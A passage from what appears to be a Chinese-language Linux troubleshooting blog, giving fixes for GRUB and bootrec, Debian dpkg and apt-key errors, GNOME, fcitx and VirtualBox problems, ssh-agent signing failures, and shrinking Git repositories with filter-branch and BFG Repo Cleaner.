<figure class="highlight armasm"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">X:\&gt; <span class="keyword">bootrec.exe </span>/fixboot</span><br><span class="line">X:\&gt; <span class="keyword">bootrec.exe </span>/RebuildBcd</span><br></pre></td></tr></table></figure>
<p><strong>不要</strong> 使用 <code>bootrec.exe /Fixmbr</code>，因为那会将 GRUB 清除掉。或者你可以用 Troubleshooting 菜单里的 Boot Repair 函数，它不会清除 GRUB 而且可以修复大部分错误。而且最好是保证连接电脑的介质 <strong>只有</strong> 目标硬盘和你的可启动介质，如果你连接了其他的设备，Windows 很可能会没法修复启动信息。</p>
<h4 id="Device-dev-xxx-not-initialized-in-udev-database-even-after-waiting-10000000-microseconds"><a href="#Device-dev-xxx-not-initialized-in-udev-database-even-after-waiting-10000000-microseconds" class="headerlink" title="Device /dev/xxx not initialized in udev database even after waiting 10000000 microseconds"></a>Device /dev/xxx not initialized in udev database even after waiting 10000000 microseconds</h4><p>如果 grub-mkconfig 卡住然后显示如下错误信息：</p>
<figure class="highlight asciidoc"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="symbol">WARNING: </span>Device /dev/<span class="strong">*xxx*</span> not initialized in udev database even after waiting 10000000 microseconds</span><br></pre></td></tr></table></figure>
<p>你需要使用下列命令为 chroot 环境提供 <code>/run/lvm/</code> 访问支持：</p>
<figure class="highlight vala"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta"># mkdir /mnt/hostlvm</span></span><br><span class="line"><span class="meta"># mount --bind /run/lvm /mnt/hostlvm</span></span><br><span class="line"><span class="meta"># arch-chroot /mnt</span></span><br><span class="line"><span class="meta"># ln -s /hostlvm /run/lvm</span></span><br></pre></td></tr></table></figure>
<h3 id="软件包、依赖、桌面环境问题"><a href="#软件包、依赖、桌面环境问题" class="headerlink" title="软件包、依赖、桌面环境问题"></a>软件包、依赖、桌面环境问题</h3><h4 id="Debian-12-bookworm-raspi-firmware-missing-boot-firmware-did-you-forget-to-mount-it"><a href="#Debian-12-bookworm-raspi-firmware-missing-boot-firmware-did-you-forget-to-mount-it" class="headerlink" title="Debian 12 bookworm: raspi-firmware: missing /boot/firmware, did you forget to mount it?"></a>Debian 12 bookworm: raspi-firmware: missing /boot/firmware, did you forget to mount it?</h4><figure class="highlight sql"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br></pre></td><td class="code"><pre><span class="line">dpkg: error processing package linux-image-amd64 (<span class="comment">--configure):</span></span><br><span class="line">dependency problems - leaving unconfigured</span><br><span class="line">Processing triggers for initramfs-tools (0.142) ...</span><br><span class="line"><span class="keyword">update</span>-initramfs: Generating /boot/initrd.img<span class="number">-6.1</span><span class="number">.0</span><span class="number">-9</span>-amd64</span><br><span class="line">raspi-firmware: <span class="keyword">missing</span> /boot/firmware, did you forget <span class="keyword">to</span> <span class="keyword">mount</span> it?</span><br><span class="line">run-parts: /etc/initramfs/post-update.d//z50-raspi-firmware exited <span class="keyword">with</span> <span class="keyword">return</span> code <span class="number">1</span></span><br><span class="line">dpkg: <span class="keyword">error</span> processing <span class="keyword">package</span> initramfs-tools (<span class="comment">--configure):</span></span><br><span class="line">installed initramfs-tools <span class="keyword">package</span> post-installation script subprocess returned <span class="keyword">error</span> <span class="keyword">exit</span> <span class="keyword">status</span> <span class="number">1</span></span><br><span class="line"><span class="keyword">Errors</span> were encountered <span class="keyword">while</span> processing:</span><br><span class="line">linux-image<span class="number">-6.1</span><span class="number">.0</span><span class="number">-9</span>-amd64</span><br><span class="line">linux-image-amd64</span><br><span class="line">initramfs-tools</span><br><span class="line">E: Sub-process /usr/<span class="keyword">bin</span>/dpkg returned an <span class="keyword">error</span> code (<span class="number">1</span>)</span><br></pre></td></tr></table></figure>
<p>解决：<a href="https://forums.debian.net/viewtopic.php?t=154857" target="_blank" rel="noopener">https://forums.debian.net/viewtopic.php?t=154857</a> </p>
<p>更新linux-image-6.1.10-amd64的时候，apt报错，这个是<code>raspi-firmware</code>的bug。卸载即可：<code>sudo rm /etc/kernel/postinst.d/z50-raspi-firmware</code>和<code>sudo rm /etc/kernel/postrm.d/z50-raspi-firmware</code></p>
<h4 id="VirtualBox、WPS-Office等QT应用显示不正常-qt5ct提示：QT-QPA-PLATFORMTHEME变量未设置"><a href="#VirtualBox、WPS-Office等QT应用显示不正常-qt5ct提示：QT-QPA-PLATFORMTHEME变量未设置" class="headerlink" title="VirtualBox、WPS Office等QT应用显示不正常(qt5ct提示：QT_QPA_PLATFORMTHEME变量未设置)"></a>VirtualBox、WPS Office等QT应用显示不正常(qt5ct提示：<code>QT_QPA_PLATFORMTHEME</code>变量未设置)</h4><p>参考：</p>
<p><a href="https://forums.virtualbox.org/viewtopic.php?f=7&amp;t=97886" target="_blank" rel="noopener">https://forums.virtualbox.org/viewtopic.php?f=7&amp;t=97886</a></p>
<p><a href="https://forum.manjaro.org/t/text-in-apps-renders-as-white-on-white/48500" target="_blank" rel="noopener">https://forum.manjaro.org/t/text-in-apps-renders-as-white-on-white/48500</a></p>
<p><a href="https://wiki.archlinux.org/title/Uniform_look_for_Qt_and_GTK_applications_(%E7%AE%80%E4%BD%93%E4%B8%AD%E6%96%87" target="_blank" rel="noopener">https://wiki.archlinux.org/title/Uniform_look_for_Qt_and_GTK_applications_(%E7%AE%80%E4%BD%93%E4%B8%AD%E6%96%87</a>)</p>
<p>解决：安装<code>qt5ct</code>。或者VirtualBox可以：<code>VirtualBox -style Fusion</code></p>
<p>在<code>/etc/environment</code>文件中写入<code>QT_QPA_PLATFORMTHEME=qt5ct</code></p>
<h4 id="新装的Debian-11-Inte-i5-10400-UHD630-开机黑屏"><a href="#新装的Debian-11-Inte-i5-10400-UHD630-开机黑屏" class="headerlink" title="新装的Debian 11 Inte i5-10400(UHD630)开机黑屏"></a>新装的Debian 11 Inte i5-10400(UHD630)开机黑屏</h4><ol>
<li>Debian Sid可以正常进入图形界面，但Debian Stable版本在GRUB引导界面后即黑屏（显示器：无信号）、鼠标键盘灭灯、tty终端无法切换。</li>
<li>网上查询，i5-10400自带UHD630集成显卡，使用i915驱动。</li>
<li>Debian 11 在GRUB界面按“e”进入编辑界面，在linux一行最后添加<code>nomodeset</code>即可进入图形界面(根据网上，尝试过<code>i915.modeset=0</code>和<code>i915.alpha_support=1</code>均无效)。</li>
<li>经检查，存在i915驱动，且已加载。考虑到可能是内核版本太低，Debian 11 是<code>5.10.0-16-amd64</code>，而Sid是<code>5.18</code>，所以开始着手更新内核。</li>
<li>从 <code>backports</code> 拉取<code>5.14</code>内核后解决UHD630开机黑屏问题(<code>sudo apt install -t bullseye-backports linux-image-5.14.0-0.bpo.2-amd64</code>)。</li>
</ol>
<h4 id="解决”apt-f-install“失效，dpkg错误的方法"><a href="#解决”apt-f-install“失效，dpkg错误的方法" class="headerlink" title="解决”apt -f install“失效，dpkg错误的方法"></a>解决”apt -f install“失效，dpkg错误的方法</h4><figure class="highlight sql"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br></pre></td><td class="code"><pre><span class="line">apt -f <span class="keyword">install</span>出现类似以下的错误:</span><br><span class="line"><span class="comment">-----------------------------------------------------------------------------------------</span></span><br><span class="line">(Reading <span class="keyword">database</span> ... <span class="number">226243</span> files <span class="keyword">and</span> directories currently installed.)</span><br><span class="line">Unpacking libjline-<span class="keyword">java</span> (<span class="keyword">from</span> .../libjline-java_1<span class="number">.0</span><span class="number">-1</span>_all.deb) ...</span><br><span class="line">dpkg: <span class="keyword">error</span> processing /<span class="keyword">var</span>/<span class="keyword">cache</span>/apt/archives/libjline-java_1<span class="number">.0</span><span class="number">-1</span>_all.deb (<span class="comment">--unpack):</span></span><br><span class="line"> trying <span class="keyword">to</span> overwrite <span class="string">'/usr/share/java/jline.jar'</span>, which <span class="keyword">is</span> also <span class="keyword">in</span> <span class="keyword">package</span> scala <span class="number">2.9</span><span class="number">.2</span><span class="number">-400</span></span><br><span class="line"><span class="keyword">Errors</span> were encountered <span class="keyword">while</span> processing:</span><br><span class="line"> /<span class="keyword">var</span>/<span class="keyword">cache</span>/apt/archives/libjline-java_1<span class="number">.0</span><span class="number">-1</span>_all.deb</span><br><span class="line">E: Sub-process /usr/<span class="keyword">bin</span>/dpkg returned an <span class="keyword">error</span> code (<span class="number">1</span>)</span><br><span class="line"><span class="comment">-----------------------------------------------------------------------------------------</span></span><br><span class="line"><span class="comment"># 除了apt update能用，其他均无效。解决:</span></span><br><span class="line">sudo dpkg -i <span class="comment">--force-overwrite path-to-the-deb-file</span></span><br><span class="line">或者：sudo dpkg -i <span class="comment">--force-overwrite-all path-to-the-deb-file</span></span><br><span class="line">例如：上面的情况应该：</span><br><span class="line">sudo dpkg -i <span class="comment">--force-overwrite /var/cache/apt/archives/libjline-java_1.0-1_all.deb</span></span><br><span class="line">然后用apt和dpkg卸载软件包。</span><br></pre></td></tr></table></figure>
<h4 id="Warning-apt-key-is-deprecated-SOLVED"><a href="#Warning-apt-key-is-deprecated-SOLVED" class="headerlink" title="Warning: apt-key is deprecated (SOLVED)"></a>Warning: apt-key is deprecated (SOLVED)</h4><p>参考来源: <a href="https://suay.site/?p=526" target="_blank" rel="noopener">https://suay.site/?p=526</a></p>
<blockquote>
<p>使用<code>apt-key add</code>时爆出警告 Warning: apt-key is deprecated. Manage keyring files in trusted.gpg.d instead (see apt-key(8)). 怎么解决呢？</p>
</blockquote>
<p><strong>apt-key</strong> 程序现在已被弃用。 现在我们应该使用trusted.gpg.d 来管理密钥文件。 翻译成人类语言，现在我们必须自己将文件添加到 <strong>/etc/apt/trusted.gpg.d/ 文件</strong> 夹中。Debian称，Debian11 是最后支持apt-ket add的发行版了。</p>
<p>命令代替：</p>
<p><code>wget -qO - https://keys.anydesk.com/repos/DEB-GPG-KEY | apt-key add -</code>  -&gt; <code>curl https://keys.anydesk.com/repos/DEB-GPG-KEY | sudo gpg --no-default-keyring --keyring gnupg-ring:/etc/apt/trusted.gpg.d/anydesk.gpg --import | sudo chmod 644 /etc/apt/trusted.gpg.d/anydesk.gpg</code></p>
<figure class="highlight pgsql"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br></pre></td><td class="code"><pre><span class="line">添加远程密钥：</span><br><span class="line"># 注意，没设置密钥<span class="number">644</span>权限无法读取</span><br><span class="line"># curl 【URL】 | sudo gpg <span class="comment">--no-default-keyring --keyring gnupg-ring:/etc/apt/trusted.gpg.d/【密钥名】.gpg --import | sudo chmod 644 /etc/apt/trusted.gpg.d/【密钥名】.gpg</span></span><br><span class="line"></span><br><span class="line">添加本地密钥:</span><br><span class="line"># cat 【URL.pub】 | sudo gpg <span class="comment">--no-default-keyring --keyring gnupg-ring:/etc/apt/trusted.gpg.d/【密钥名】.gpg --import</span></span><br><span class="line"># sudo chmod <span class="number">644</span> /etc/apt/<span class="keyword">trusted</span>.gpg.d/【密钥名】.gpg</span><br><span class="line"></span><br><span class="line">从Key <span class="keyword">Server</span>添加：</span><br><span class="line"># sudo gpg <span class="comment">--no-default-keyring --keyring gnupg-ring:/etc/apt/trusted.gpg.d/【rabbit】.gpg --keyserver 【keyserver.ubuntu.com】 --recv 【6B73A36E6026DFCA】</span></span><br><span class="line"># sudo chmod <span class="number">644</span> /etc/apt/<span class="keyword">trusted</span>.gpg.d/【rabbit】.gpg</span><br><span class="line"></span><br><span class="line">查看已安装密钥信息：</span><br><span class="line"># gpg <span class="comment">--list-keys --keyring /etc/apt/trusted.gpg.d/【FILE】.gpg</span></span><br><span class="line">等效于：</span><br><span class="line"># apt-key list</span><br><span class="line"></span><br><span class="line">移除密钥：</span><br><span class="line"># cd /etc/apt/<span class="keyword">trusted</span>.gpg.d/</span><br><span class="line"># sudo rm 【<span class="type">NAME</span>】.gpg</span><br><span class="line">等效于：</span><br><span class="line"># sudo apt-key del <span class="number">7</span>D8D08F6</span><br><span class="line">移除apt-key添加的密钥：</span><br><span class="line"># sudo apt-key del KEY_ID</span><br><span class="line">移除所有apt-key添加的密钥：</span><br><span class="line"># sudo rm /etc/apt/<span class="keyword">trusted</span>.gpg</span><br></pre></td></tr></table></figure>
<h4 id="Debian-GNOME显示网卡未托管"><a href="#Debian-GNOME显示网卡未托管" class="headerlink" title="Debian GNOME显示网卡未托管"></a>Debian GNOME显示网卡未托管</h4><figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br></pre></td><td class="code"><pre><span class="line"># Linux里面有两套管理网络连接的方案：</span><br><span class="line">   <span class="number">1.</span> /etc/network/<span class="built_in">int</span>erfaces（/etc/init.d/networking）</span><br><span class="line">   <span class="number">2.</span> Network-Manager</span><br><span class="line"></span><br><span class="line"># 两套方案是冲突的，不能同时共存。</span><br><span class="line">    <span class="number">1.</span> 第一个方案适用于没有X的环境，如：服务器；或者那些完全不需要改动连接的场合。</span><br><span class="line">    <span class="number">2.</span> 第二套方案使用于有桌面的环境，特别是笔记本，搬来搬去，网络连接情况随时会变的。</span><br><span class="line">    </span><br><span class="line"># 他们两个为了避免冲突，又能共享配置，就有了下面的解决方案：</span><br><span class="line">    <span class="number">1.</span> 当Network-Manager发现/etc/network/<span class="built_in">int</span>erfaces被改动的时候，则关闭自己（显示为未托管），除非managed设置成真。</span><br><span class="line">    <span class="number">2.</span> 当managed设置成真时，/etc/network/<span class="built_in">int</span>erfaces，则不生效。</span><br><span class="line">    </span><br><span class="line"># 在终端下执行</span><br><span class="line">sudo vi /etc/NetworkManager/NetworkManager.conf</span><br><span class="line"># 把里面的<span class="literal">false</span>改为<span class="literal">true</span>，然后重启问题即可解决。</span><br></pre></td></tr></table></figure>
<h4 id="GNOME共享设置中没有屏幕共享"><a href="#GNOME共享设置中没有屏幕共享" class="headerlink" title="GNOME共享设置中没有屏幕共享"></a>GNOME共享设置中没有屏幕共享</h4><p>VINO已经弃用。使用APT安装<code>gnome-remote-desktop</code>即可。</p>
<h4 id="GNOME设置打不开——gnome-control-center-3592"><a href="#GNOME设置打不开——gnome-control-center-3592" class="headerlink" title="GNOME设置打不开——gnome-control-center:3592"></a>GNOME设置打不开——gnome-control-center:3592</h4><p>GNOME更新后打不开设置(gnome-control-center)</p>
<figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">报错：(gnome-control-center:3592): GLib-GIO-<span class="builtin-name">ERROR</span> **: 14:22:30.138:<span class="built_in"> Settings </span>schema <span class="string">'org.gnome.settings-daemon.plugins.power'</span> does <span class="keyword">not</span> contain a key named <span class="string">'power-saver-profile-on-low-battery'</span></span><br><span class="line">zsh: trace trap  gnome-control-center</span><br></pre></td></tr></table></figure>
<p>安装<code>gnome-settings-daemon</code>即可</p>
<h4 id="解决GNOME-Wayland下fcitx不运行的办法"><a href="#解决GNOME-Wayland下fcitx不运行的办法" class="headerlink" title="解决GNOME Wayland下fcitx不运行的办法"></a>解决GNOME Wayland下fcitx不运行的办法</h4><figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br></pre></td><td class="code"><pre><span class="line">vi /etc/environment</span><br><span class="line"><span class="comment"># 添加：</span></span><br><span class="line"><span class="builtin-name">export</span> <span class="attribute">GTK_IM_MODULE</span>=fcitx</span><br><span class="line"><span class="builtin-name">export</span> <span class="attribute">QT_IM_MODULE</span>=fcitx</span><br><span class="line"><span class="builtin-name">export</span> <span class="attribute">XMODIFIERS</span>=@im=fcitx</span><br><span class="line"></span><br><span class="line">但是，一般情况下我建议：</span><br><span class="line">使用fcitx请使用GNOME on xorg模式。</span><br></pre></td></tr></table></figure>
<h4 id="GNOME锁屏无效、丢失锁屏按钮"><a href="#GNOME锁屏无效、丢失锁屏按钮" class="headerlink" title="GNOME锁屏无效、丢失锁屏按钮"></a>GNOME锁屏无效、丢失锁屏按钮</h4><figure class="highlight pgsql"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line">检查锁屏属性：</span><br><span class="line">gsettings <span class="keyword">get</span> org.gnome.desktop.lockdown <span class="keyword">disable</span>-<span class="keyword">lock</span>-screen</span><br><span class="line">如果是<span class="keyword">True</span>，改为<span class="keyword">False</span>：</span><br><span class="line">gsettings <span class="keyword">set</span> org.gnome.desktop.lockdown <span class="keyword">disable</span>-<span class="keyword">lock</span>-screen <span class="keyword">false</span></span><br></pre></td></tr></table></figure>
<h4 id="解决bash-completion安装后，终端仍无法自动补齐"><a href="#解决bash-completion安装后，终端仍无法自动补齐" class="headerlink" title="解决bash-completion安装后，终端仍无法自动补齐"></a>解决bash-completion安装后，终端仍无法自动补齐</h4><figure class="highlight armasm"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line"># Linux终端命令行补齐：</span><br><span class="line"><span class="symbol">apt</span>-<span class="meta">get</span> install <span class="keyword">bash-completion</span></span><br><span class="line"><span class="keyword"># </span>在<span class="keyword">bashrc中添加：</span></span><br><span class="line"><span class="keyword">if </span>[ -f /etc/<span class="keyword">bash_completion </span>]<span class="comment">; then</span></span><br><span class="line">. /etc/<span class="keyword">bash_completion</span></span><br><span class="line"><span class="keyword">fi</span></span><br></pre></td></tr></table></figure>
<h4 id="解决Virtual-Box安装扩展包后无法访问USB"><a href="#解决Virtual-Box安装扩展包后无法访问USB" class="headerlink" title="解决Virtual Box安装扩展包后无法访问USB"></a>解决Virtual Box安装扩展包后无法访问USB</h4><p><code>vi /etc/group</code>  在vbox哪一行后面加上当前用户，重启。</p>
<p>关于 VBox安装扩展包(不是增强包)</p>
<p>下载地址：<a href="https://www.virtualbox.org/wiki/Downloads" target="_blank" rel="noopener">https://www.virtualbox.org/wiki/Downloads</a>  下载Oracle VM VirtualBox Extension Pack，vbox-extpack。</p>
<h4 id="解决Vbox-Linux虚拟机共享文件夹没访问权限"><a href="#解决Vbox-Linux虚拟机共享文件夹没访问权限" class="headerlink" title="解决Vbox Linux虚拟机共享文件夹没访问权限"></a>解决Vbox Linux虚拟机共享文件夹没访问权限</h4><p>虚拟机中 ：<code>sudo usermod -a -G vboxsf [Your user name]</code></p>
<h4 id="Virtual-Box-6-1-34在Debian-11-Bullseye-启动虚拟机后频繁崩溃"><a href="#Virtual-Box-6-1-34在Debian-11-Bullseye-启动虚拟机后频繁崩溃" class="headerlink" title="Virtual Box 6.1.34在Debian 11(Bullseye)启动虚拟机后频繁崩溃"></a>Virtual Box 6.1.34在Debian 11(Bullseye)启动虚拟机后频繁崩溃</h4><p>解决： 升级6.1.35版本即可。</p>
<p>Vbox升级到6.1.34后，Windows虚拟机直接卡死重启、Linux主机延时注销。查询官网的<a href="https://www.virtualbox.org/wiki/Mailing_lists" target="_blank" rel="noopener">邮件列表</a>中的<a href="https://www.virtualbox.org/wiki/Bugtracker" target="_blank" rel="noopener">BugTracker</a>，搜索<a href="https://www.virtualbox.org/search?q=debian+11&amp;noquickjump=1&amp;ticket=on&amp;changeset=on&amp;wiki=on" target="_blank" rel="noopener">列表</a>，然后找到了<a href="https://www.virtualbox.org/ticket/20914" target="_blank" rel="noopener">Ticket #20914</a>。原来是Vbox6.1.34的问题，在6.1.35版本已修复。6.1.35版本在<a href="https://www.virtualbox.org/wiki/Testbuilds" target="_blank" rel="noopener">Test Build</a>页面可以<a href="https://www.virtualbox.org/download/testcase/VirtualBox-6.1.35-152223-Linux_amd64.run" target="_blank" rel="noopener">下载</a> | <a href="https://www.virtualbox.org/download/testcase/Oracle_VM_VirtualBox_Extension_Pack-6.1.35-152223.vbox-extpack" target="_blank" rel="noopener">Extension Pack</a> | <a href="https://www.virtualbox.org/download/testcase/VBoxGuestAdditions_6.1.35-152139.iso" target="_blank" rel="noopener">Guest Addition</a>。</p>
<h4 id="系统软件包依赖大故障恢复——dpkg-configure-amp-dpkg-reconfigure"><a href="#系统软件包依赖大故障恢复——dpkg-configure-amp-dpkg-reconfigure" class="headerlink" title="系统软件包依赖大故障恢复——dpkg --configure &amp; dpkg-reconfigure"></a>系统软件包依赖大故障恢复——<code>dpkg --configure</code> &amp; <code>dpkg-reconfigure</code></h4><p><code>dpkg --configure -a</code> ：Will configure all unpacked but unconfigured packages.配置所有解压的、但未配置的软件包。</p>
<p><code>dpkg-reconfigure -phigh -a</code> ：Will reconfigure all installed packages that use debconf with high priority.将会重新配置经过debconf高优先级配置的已安装的软件包。</p>
<h4 id="SSH密钥迁移后提示sign-and-send-pubkey-signing-failed-for-RSA-quot-home-xxx-ssh-id-rsa-quot-from-sign-and-send-pubkey-signing-failed-agent-refused-operation"><a href="#SSH密钥迁移后提示sign-and-send-pubkey-signing-failed-for-RSA-quot-home-xxx-ssh-id-rsa-quot-from-sign-and-send-pubkey-signing-failed-agent-refused-operation" class="headerlink" title="SSH密钥迁移后提示sign_and_send_pubkey: signing failed for RSA &quot;/home/xxx/.ssh/id_rsa&quot; from...| sign_and_send_pubkey: signing failed: agent refused operation"></a>SSH密钥迁移后提示<code>sign_and_send_pubkey: signing failed for RSA &quot;/home/xxx/.ssh/id_rsa&quot; from...| sign_and_send_pubkey: signing failed: agent refused operation</code></h4><blockquote>
<p>参考: <a href="https://www.cnblogs.com/qianyuliang/p/10032074.html" target="_blank" rel="noopener">https://www.cnblogs.com/qianyuliang/p/10032074.html</a></p>
</blockquote>
<p>运行：<code>eval &quot;$(ssh-agent -s)&quot;</code> 和 <code>ssh-add</code>即可，注意ssh密钥权限是600</p>
<h4 id="Git仓库体积过大，如何减小？"><a href="#Git仓库体积过大，如何减小？" class="headerlink" title="Git仓库体积过大，如何减小？"></a>Git仓库体积过大，如何减小？</h4><blockquote>
<p>参考：    <a href="https://gitee.com/help/articles/4232#article-header0" target="_blank" rel="noopener">https://gitee.com/help/articles/4232#article-header0</a></p>
</blockquote>
<h5 id="Gitee说明的办法"><a href="#Gitee说明的办法" class="headerlink" title="Gitee说明的办法"></a>Gitee说明的办法</h5><p>查看存储库中的大文件</p>
<figure class="highlight coq"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">git rev-list --objects --all | <span class="type">grep</span> -E `git verify-pack -v .git/objects/pack/*.idx | <span class="type">sort</span> -k <span class="number">3</span> -n | <span class="type">tail</span> <span class="number">-10</span> | <span class="type">awk</span> '&#123;print$<span class="number">1</span>&#125;' | <span class="type">sed</span> ':a;N;$!ba;s/\n/|<span class="type">/g</span>'`</span><br></pre></td></tr></table></figure>
<p>或</p>
<figure class="highlight reasonml"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">git rev-<span class="built_in">list</span> --objects --all <span class="pattern-match">| grep "<span class="constructor">$(<span class="params">git</span> <span class="params">verify</span>-<span class="params">pack</span> -<span class="params">v</span> .<span class="params">git</span><span class="operator">/</span><span class="params">objects</span><span class="operator">/</span><span class="params">pack</span><span class="operator">/</span><span class="operator">*</span>.<span class="params">idx</span> | <span class="params">sort</span> -<span class="params">k</span> 3 -<span class="params">n</span> | <span class="params">tail</span> -15 | <span class="params">awk</span> '&#123;<span class="params">print$1</span>&#125;')</span>"</span></span><br></pre></td></tr></table></figure>
<p>改写历史，去除大文件</p>
<blockquote>
<p>注意：下方命令中的 <code>path/to/large/files</code> 是大文件所在的路径，千万不要弄错！</p>
</blockquote>
<figure class="highlight vim"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">git <span class="built_in">filter</span>-branch --tree-<span class="built_in">filter</span> <span class="string">'rm -f path/to/large/files'</span> --<span class="keyword">tag</span>-name-<span class="built_in">filter</span> <span class="keyword">cat</span> -- --<span class="keyword">all</span></span><br><span class="line">git push origin --<span class="keyword">tags</span> --force</span><br><span class="line">git push origin --<span class="keyword">all</span> --force</span><br></pre></td></tr></table></figure>
<p>如果在 <code>git filter-branch</code> 操作过程中遇到如下提示，需要在 <code>git filter-branch</code> 后面加上参数 <code>-f</code></p>
<figure class="highlight sql"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">Cannot <span class="keyword">create</span> a <span class="keyword">new</span> backup.</span><br><span class="line">A previous <span class="keyword">backup</span> already <span class="keyword">exists</span> <span class="keyword">in</span> refs/original/</span><br><span class="line"><span class="keyword">Force</span> overwriting the <span class="keyword">backup</span> <span class="keyword">with</span> -f</span><br></pre></td></tr></table></figure>
<p>并告知所有组员，push 代码前需要 pull rebase，而不是 merge，否则会从该组员的本地仓库再次引入到远程库中，导致仓库在此被 Gitee 系统屏蔽。</p>
<p>更加具体的操作可以点击文章 <a href="https://my.oschina.net/jfinal/blog/215624?fromerr=ZTZ6c38X" target="_blank" rel="noopener">改写历史，永久删除git库的物理文件</a> 查看</p>
<p>一些工具<br> <a href="https://github.com/newren/git-filter-repo" target="_blank" rel="noopener">https://github.com/newren/git-filter-repo</a><br> <a href="https://rtyley.github.io/bfg-repo-cleaner/" target="_blank" rel="noopener">https://rtyley.github.io/bfg-repo-cleaner/</a><br> <a href="https://git-scm.com/docs/git-filter-branch" target="_blank" rel="noopener">https://git-scm.com/docs/git-filter-branch</a></p>
<h5 id="我采用的方法"><a href="#我采用的方法" class="headerlink" title="我采用的方法"></a>我采用的方法</h5><p>下载 <a href="https://rtyley.github.io/bfg-repo-cleaner/" target="_blank" rel="noopener">BFG Repo Cleaner</a></p>
<p>假设有个名为dir的git项目仓库需要清理，首先克隆：</p>
<p><code>git clone --mirror git://example.com/some-big-repo.git</code></p>
<p>开始清理：</p>
<p><code>java -jar bfg.jar --strip-blobs-bigger-than 100M some-big-repo.git</code></p>
<p>清理结束后：</p>
<p><code>cd some-big-repo.git</code> &amp; <code>git reflog expire --expire=now --all &amp;&amp; git gc --prune=now --aggressive</code></p>
<p>最后，一旦您对仓库的更新状态感到满意，就将其备份 <em>（请注意，因为您的clone命令使用了 <code>--mirror</code>标志，此推送将更新 <strong>所有</strong> 您的远程服务器上的 引用）</em> ： <code>git push</code></p>
<p>注意：您已经准备好让每个人都放弃他们的仓库的旧副本，并复制新的原始数据。 这是最好的删除所有旧的克隆，因为他们将有肮脏的历史，你 <em>不</em> 希望风险推回你的新清洁回购。 </p>
<p>也就是说，你清理完后，其他clone这个仓库的人都要强制拉取新的内容（Master分支）：</p>
<p><code>git fetch --all &amp;&amp; git reset --hard origin/master &amp;&amp; git pull</code></p>
<p>BFG其他功能：</p>
<p>删除所有名为“ id_rsa”或“ id_dsa”的文件： </p>
<figure class="highlight gams"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="symbol">$</span> bfg --delete-<span class="keyword">files</span> id_&#123;dsa,rsa&#125;  my-repo.git</span><br></pre></td></tr></table></figure>
<p>删除所有大于50 MB的Blob： </p>
<figure class="highlight armasm"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">$ <span class="keyword">bfg </span>--<span class="keyword">strip-blobs-bigger-than </span><span class="number">50</span>M  my-repo.git</span><br></pre></td></tr></table></figure>
<p>将文件中列出的所有密码 在 <em>（如果需要 前缀行’regex：’或’glob：’处）</em> ， 替换为 <code>***REMOVED***</code>无论它们出现在您的存储库中的何处： </p>
<figure class="highlight excel"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">$ bfg --<span class="built_in">replace</span>-<span class="built_in">text</span> passwords.txt  my-repo.git</span><br></pre></td></tr></table></figure>
<p>删除所有名为’.git’的文件夹或文件-Git中的 <a href="https://github.com/git/git/blob/d29e9c89d/fsck.c#L228-L229" target="_blank" rel="noopener">保留文件名 </a>。 这些经常    <a href="https://stackoverflow.com/q/16821649/438886" target="_blank" rel="noopener">成为问题 </a>迁移到时    来自其他源代码控制系统（如Mercurial）的Git： </p>
